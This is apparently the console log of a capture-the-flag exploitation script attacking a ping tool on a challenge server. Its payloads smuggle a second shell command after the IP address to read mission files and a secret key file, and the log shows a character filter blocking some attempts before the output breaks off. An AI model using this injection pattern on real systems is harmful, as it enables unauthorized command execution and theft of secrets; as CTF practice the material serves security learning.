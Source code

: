 [18/20] Testing: Strings on mission_beta

================================================================================
PAYLOAD: Strings on mission_beta
Command: 8.8.8.8
strings /var/lib/aethercorp/missions/mission_beta.txt
--------------------------------------------------------------------------------
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.68 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.77 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.74 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.77 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 3.680/3.739/3.769/0.035 ms
/bin/sh: 2: strings: not found

================================================================================

[19/20] Testing: Awk mission_alpha

================================================================================
PAYLOAD: Awk mission_alpha
Command: 8.8.8.8
awk '{print}' /var/lib/aethercorp/missions/mission_alpha.txt
--------------------------------------------------------------------------------
Error: Malicious character '{' detected.
================================================================================

[20/20] Testing: Awk mission_beta

================================================================================
PAYLOAD: Awk mission_beta
Command: 8.8.8.8
awk '{print}' /var/lib/aethercorp/missions/mission_beta.txt
--------------------------------------------------------------------------------
Error: Malicious character '{' detected.
================================================================================


================================================================================
Exploitation complete!
================================================================================

C:\Citadel_CTF_Writeups>python -u "c:\Citadel_CTF_Writeups\ext2.py"

    ╔═══════════════════════════════════════════════════════════╗
    ║  AetherCorp NetProbeX - CTF Exploitation Script          ║
    ║  Target: http://chall_citadel.cryptonitemit.in:32772     ║
    ╚═══════════════════════════════════════════════════════════╝


[1/15] Testing: READ BLACKSITE KEY!

================================================================================
PAYLOAD: READ BLACKSITE KEY!
Command: 8.8.8.8
head /var/lib/aethercorp/archive/.secrets/blacksite_key.dat
--------------------------------------------------------------------------------
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.66 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.79 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.77 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.78 ms
